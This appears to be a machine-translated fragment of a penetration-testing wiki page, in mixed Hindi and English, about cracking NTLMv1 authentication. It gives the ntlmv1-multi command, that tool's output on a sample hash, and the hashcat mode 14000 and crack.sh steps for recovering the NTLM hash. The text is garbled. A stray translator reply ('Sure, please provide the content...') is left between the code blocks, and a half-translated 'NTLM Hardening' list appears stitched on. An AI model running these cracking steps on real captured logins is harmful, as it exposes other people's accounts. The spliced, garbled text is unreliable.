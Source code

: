 ### NTLMv1 attack with hashcat

NTLMv1 को NTLMv1 मल्टी टूल [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) के साथ भी तोड़ा जा सकता है जो NTLMv1 संदेशों को एक विधि में प्रारूपित करता है जिसे हैशकैट के साथ तोड़ा जा सकता है।

The command
```bash
python3 ntlmv1.py --ntlmv1 hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```
Sure, please provide the content you would like me to translate.
```bash
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
NTHASH:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
```
```markdown
# NTLM Hardening

NTLM (NT LAN Manager) is a Microsoft authentication protocol. It is important to harden NTLM to prevent unauthorized access.

## Steps to Harden NTLM

1. **Disable NTLM Authentication**  
   NTLM प्रमाणीकरण को बंद करें।

2. **Use Kerberos Instead**  
   इसके बजाय Kerberos का उपयोग करें।

3. **Limit NTLM Usage**  
   NTLM के उपयोग को सीमित करें।

4. **Monitor NTLM Traffic**  
   NTLM ट्रैफ़िक की निगरानी करें।

5. **Implement Security Policies**  
   सुरक्षा नीतियों को लागू करें।

## Conclusion

Harden NTLM to enhance security and reduce the risk of unauthorized access.
```